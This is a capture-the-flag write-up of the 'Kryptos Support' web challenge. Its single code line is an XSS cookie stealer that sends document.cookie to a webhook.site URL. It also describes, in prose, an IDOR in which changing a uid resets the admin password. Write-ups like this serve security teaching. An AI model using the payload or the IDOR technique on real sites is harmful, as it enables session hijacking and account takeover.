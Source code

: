 # Kryptos Support

So we are greeted with a website with some input box, we send a message and see that admin will review ticket:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So maybe some sort of XSS where we have to steal cookie?

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We craft a quick cookie stealer:

```
<script>document.location='https://webhook.site/888b441e-ed74-4bba-8c87-e40f690d376a?c='+document.cookie</script>
```

And get a hit in our webhook:

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we capture a session cookie

{% hint style="warning" %}
The payload broke the chal and breaks the redirection lol be careful
{% endhint %}

We see the redirection to /tickets

<figure><img src="../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And then we spot /settings:

<figure><img src="../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we change the password and see the odd request:

<figure><img src="../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And from there it is very easy, we change uid to 1 to change the password of the admin and it works, so we can go back to /login and get the flag:

<figure><img src="../../../../.gitbook/assets/image (16) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

